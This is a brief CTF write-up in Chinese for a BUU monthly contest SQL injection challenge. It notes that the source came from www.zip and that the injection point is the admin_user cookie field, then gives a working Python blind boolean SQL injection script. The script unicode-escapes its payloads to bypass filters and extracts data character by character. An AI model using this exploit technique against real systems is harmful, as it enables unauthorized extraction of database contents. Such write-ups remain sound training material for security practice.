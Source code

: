 www.zip拿源码

注入点再cooike里的admin_user

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2018.png)

exp.py

```python
import requests
url='http://665c87ef-b542-431c-b294-088c5cc2b568.node4.buuoj.cn:81/include/common.php'
def unicode(s):
    Char=''
    for i in s:
        Char+=r'\u00'+hex(ord(i))[2:]
    return Char
text=''
dic = list('1234567890abcdefghijklmnopqrstuvwxyz[]<>@!-~?=_()*{}#. /')
for i in range(1,100):
    for s in dic:
        s=ord(s)
        payload=unicode("'||(ascii(substr((select group_concat(f44ag) from fl2222g),"+str(i)+",1))="+str(s)+")and'1")
        cookie={"islogin":"1","login_data":"{\"admin_user\":\""+payload+"\"}"}
        re=requests.get(url=url,cookies=cookie)
        if 'Set-Cookie' in re.headers:
            if re.headers['Set-Cookie'].count('expire') == 2:
                text += chr(s)
                print(text)
                break
        else:
            continue
```
